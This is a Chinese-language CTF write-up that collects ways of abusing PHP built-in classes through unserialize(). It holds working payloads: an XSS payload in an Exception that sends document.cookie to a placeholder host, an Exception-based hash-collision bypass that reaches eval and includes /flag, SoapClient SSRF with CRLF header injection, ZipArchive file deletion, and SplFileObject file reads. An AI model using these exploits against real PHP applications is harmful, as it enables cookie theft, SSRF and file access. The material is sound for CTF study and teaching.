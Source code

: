 ```yaml
---
title: PHP原生类的利用总结
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210308190505.jpg'
authorAbout: SteamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-03-29 23:02:46
authorLink:
tags: PHP
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1130193.jpg
---
```

如题。

## 使用 Error/Exception 内置类进行 XSS
出处：[BJDCTF 2nd]xss之光
源码：

    <?php
    $a = $_GET['yds_is_so_beautiful'];
    echo unserialize($a);
    ?>
Exception payload(适用于php5和php7):

    <?php
    $a = serialize(new Exception("<script>window.location.href='IP'+document.cookie</script>"));
    echo urlencode($a);
    ?>

Error payload(适用于php7)：

    <?php
    $a = new Error("<script>alert(1)</script>");
    $b = serialize($a);
    echo urlencode($b);
    ?>
ps：如果cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie信息，这样能有效的防止XSS攻击，窃取cookie内容，这样就增加了cookie的安全性，即便是这样，也不要将重要信息存入cookie。

## 使用 Error/Exception 内置类绕过哈希比较
出处：[极客大挑战 2020]Greatphp
源码：

    class SYCLOVER {
        public $syc;
        public $lover;
    
        public function __wakeup(){
            if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
               if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                   eval($this->syc);
               } else {
                   die("Try Hard !!");
               }
               
            }
        }
    }
既要绕过md5又要命令执行正常是很难实现的。
md5/sha1对一个类进行hash的时候会触发那个类的toString，这里由于没有可以利用的类，所以需要寻找原生类，比如Error,Exception等，然后由于Error的toString是无法完全控制的，会有其他输出，所以使用?><?=的方式结束php从而完整控制整块代码，(这里有个坑就是Error必须不等，但toString生成的结果必须相等，由于toString生成的结果包含当前代码所在的行，所以新生成的2个实例必须在同一行)，因为禁用了小括号无法调用函数，尝试直接include "/flag"即可。

exp：

    <?php
    class SYCLOVER
    {
        public $syc;
        public $lover;
    
        public function __wakeup()
        {
            if (($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc) === sha1($this->lover))) {
               if (!preg_match("/\<\?php|\(|\)|\"|\'/", $this->var1, $match)) {
                eval($this->syc);
                } else {
                    die("Try Hard !!");
                }
        
            }
        }
    }
    
    $str = "?>"."<?=include~".urldecode("%D0%99%93%9E%98")."?>";
    $a = new Exception($str, 1);$b = new Exception($str, 2);
    $c = new SYCLOVER();
    $c->syc = $a;
    $c->lover = $b;
    echo(urlencode(serialize($c)));
    ?>

## 使用SoapClient类进行 SSRF
这个就很常见了。
大概都是这样的：需要admin 127.0.0.1登录 然后又是remoteaddr无法直接伪造，所以找到能实例化任意类的地方用 SoapClient 类进行 SSRF。

exp：

    <?php
    $target = 'http://123.206.216.198/bbb.php';
    $post_string = 'a=b&flag=aaa';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: xxxx=1234'
        );
    $b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));
    
    $aaa = serialize($b);
    $aaa = str_replace('^^','%0d%0a',$aaa);
    $aaa = str_replace('&','%26',$aaa);
    echo $aaa;
    ?>

## 使用ZipArchive类删除文件
出处：NepCTF 2021 梦里花开牡丹亭
pop链很简单，考点就是利用ZipArchive类的open方法去删除waf.txt文件

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210330124316.png)

原理如上。

## 利用SLP类中的类读文件
出处：MAR DASCTF2021-ez_serialize
也是一个思路很简单的反序列化，就是考原生类的利用。
官方文档：https://www.php.net/manual/zh/book.spl.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210330125633.png)

源码：

    <?php
    error_reporting(0);
    highlight_file(__FILE__);
    
    class A{
        public $class;
        public $para;
        public $check;
        public function __construct()
        {
            $this->class = "B";
            $this->para = "ctfer";
            echo new  $this->class ($this->para);
        }
        public function __wakeup()
        {
            $this->check = new C;
            if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
                echo new  $this->class ($this->para);
            }    
            else
                die('bad hacker~');
        }

    }
    class B{
        var $a;
        public function __construct($a)
        {
            $this->a = $a;
            echo ("hello ".$this->a);
        }
    }
    class C{
    
        function vaild($code){
            $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
            if (preg_match($pattern, $code)){
                return false;
            }
            else
                return true;
        }
    }


    if(isset($_GET['pop'])){
        unserialize($_GET['pop']);
    }
    else{
        $a=new A;
    
    }  hello ctfer

exp1(查看目录):

    <?php
    class A{
        public $class='FilesystemIterator';
        public $para="/var/www/html";
        public $check;
        }
    $o  = new A();
    echo serialize($o);

exp2(读flag):

    <?php
    class A{
        public $class='SplFileObject';
        public $para="/var/www/html/aMaz1ng_y0u_c0Uld_f1nd_F1Ag_hErE/flag.php";
        public $check;
        }

    $o  = new A();
    echo serialize($o);

## 未完待续
